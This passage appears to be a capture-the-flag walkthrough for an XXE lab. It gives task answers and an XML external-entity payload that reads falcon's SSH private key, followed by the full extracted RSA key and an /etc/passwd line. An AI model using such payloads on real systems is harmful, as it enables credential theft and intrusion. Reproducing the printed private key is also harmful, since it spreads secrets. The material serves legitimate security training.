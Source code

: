 `No answer needed`

3. What is the name of the user in /etc/passwd

```
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```

`falcon`

4. Where is falcon's SSH key located?

`/home/falcon/.ssh/id_rsa`

5. What are the first 18 characters for falcon's private key

```xml
<!DOCTYPE any [<!ENTITY passwd SYSTEM 'file///home/falcon/.ssh/id_rsa'>]>

<any>
  <pass>&passwd;</pass>
</any>
```

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA7bq7Uj0ZQzFiWzKc81OibYfCGhA24RYmcterVvRvdxw0IVSC
lZ9oM4LiwzqRIEbed7/hAA0wu6Tlyy+oLHZn2i3pLur07pxb0bfYkr7r5DaKpRPB
2Echy67MiXAQu/xgHd1e7tST18B+Ubnwo4YZNxQa+vhHRx4G5NLRL8sT+Vj9atKN
MfJmbzClgOKpTNgBaAkzY5ueWww9g0CkCldOBCM38nkEwLJAzCKtaHSreXFNN2hQ
IGfizQYRDWH1EyDbaPmvZmy0lEELfMR18wjYF1VBTAl8PNCcqVVDaKaIrbnshQpO
HoqIKrf3wLn4rnU9873C3JKzX1aDP6q+P+9BlwIDAQABAoIBABnNP5GAciJ51KwD
RUeflyx+JJIBmoM5jTi/sagBZauu0vWfH4EvyPZ2SThZPfEb3/9tQvVneReUoSA5
bu5Md58Vho6CD81qCQktBAOBV0bwqIGcMFjR95gMw8RS9m4AyUnUgf438kfja5Jh
NP36ivgQZZFBqzLLzoG9Y9jlGKjiSyMvW4u63ZacCKPTpp5P53794/UVU7JiM03y
OvavZ2QveJp5BndV5lOkcIEFwFRACDK1xwzDRzx/TNJLufztb2EheMc3stNuOMea
TLKlbG0Mp/c2az8vNN6HA0QiwxYlKZ58RfdsOfbsFxAltYNnzxy9UEieXtrWVg7X
Qfi/ZeECgYEA/pfgg6BClEmipXv8hVkLWe7VwlFf4RXnxfWyi6OqC/3Yt9Q9B4Ya
6bgLzk2vPNHgJt+g2yh/TzMX6sCC9IMYedc0faiJr/VISBm25qTjqIGctwt0D3nb
j60mSKKFbwDPxrcek/7WH1cWDcaLTDdL9KPLk1JQzbwDzojrE1TDD+cCgYEA7wsA
MPm4aUDikZHKhQ5OOge+wzPNXVR6Yy1VV3WZfxRCoEuq6fYEJsKB5tykfQPC8cUn
qwGvo8TiMHbQ9KmI5FabfBK8LswQ575bnLtMxdPyBCgYqlsAIkPYQAOizUVlrOOg
faKF5VknsONM9DC3ZNx5L1zQXbsIrWbEPsRlytECgYB7CXr/IZwLfeqUfu7yoq3R
sJKtbhYf+S4hhTPcOCQd13e8n10/HZg0CzXpZbGieusQ3lIml9Ouusp8ML0Y3aIe
f9pmP+UKnEdqUMMLg/RhowHRlD9qm0F4lf1CbQh/NK01I5ore6SPUM7fqWv4UWDr
wZzIfad/RbWxQooYtYXvUQKBgFDLcBIdpYX1x16aX1AfqLMWgRSrQqNj9UXmQa0g
83OvXmGdkbQoUfjjz1I/i10x00cycxjqpfn9htIIptG7J6i92SnTj0Vl9eTOQ1qz
N9y5qVhcURHrVh0+vy3LzNACv73y5gDw2L7PJoo0GYODn8j4eAFZJpg3qlQpovTw
HtOxAoGABqwywFKFNTYgrl17Rs4g3H1nc0EhOzGetRaRL2bcvQsZevuWyswp0Mbm
9nlgNAtxttsmfL+OU7nP3I4YQlyZed4luRWcRaXrvGMqfEL4wzRez5ZxMnZM/IlQ
9DBlD9C7t5MI3aXR3A5zFVVINomwHH7aGfeha1JRXXAtasLTVvA=
-----END RSA PRIVATE KEY-----
```

`MIIEogIBAAKCAQEA7b`

## [Day 5] Broken Access Control
